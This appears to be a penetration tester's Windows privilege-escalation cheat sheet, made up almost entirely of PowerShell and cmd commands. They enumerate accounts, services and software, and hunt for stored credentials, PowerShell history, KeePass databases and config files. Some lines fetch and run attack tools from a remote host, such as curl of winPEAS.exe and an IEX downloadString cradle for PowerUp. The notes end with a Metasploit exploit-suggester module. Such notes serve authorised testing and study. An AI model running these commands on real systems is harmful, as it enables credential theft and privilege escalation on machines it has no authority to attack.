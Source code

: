 
> [!NOTE] Note
> set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```powershell
whoami /all

set 

tasklist /svc

cmdkey /list

systeminfo

net user
net user <current user>
net localgroup
query user
net accounts

Get-History

(Get-PSReadlineOption).HistorySavePath
type <previous command output>
ls C:\Users\bob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\

ipconfig /all
netstat -ano
tasklist /svc | findstr <PID>
route print

dir C:\
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get-WmiObject -Class Win32_Product |  select Name, Version
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls <service binary path>

$env:AppKey

gci -Path C:\ -Include *.kdbx,.git -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\xampp -Include *.txt,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -h -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci C:\Users\Public

gci \\.\pipe\
accesschk.exe -accepteula -w \pipe\WindscribeService -v

where.exe /R C:\Windows bash.exe
where.exe /R C:\Windows wsl.exe
where.exe /R C:\ MultimasterAPI.dll
```
1.  Snoop on processes
```powershell
Import-Module .\Watch-Command.ps1
Get-Process | watch-command -diff -cont -verbose -property "Image Name"
```
2. Run PEAS,
```powershell
curl 192.168.45.x/winPEAS.exe -o winpeas.exe
.\winpeas.exe
```
3. PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1');Invoke-Allchecks
```
4. Running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester
```
post/multi/recon/local_exploit_suggester
```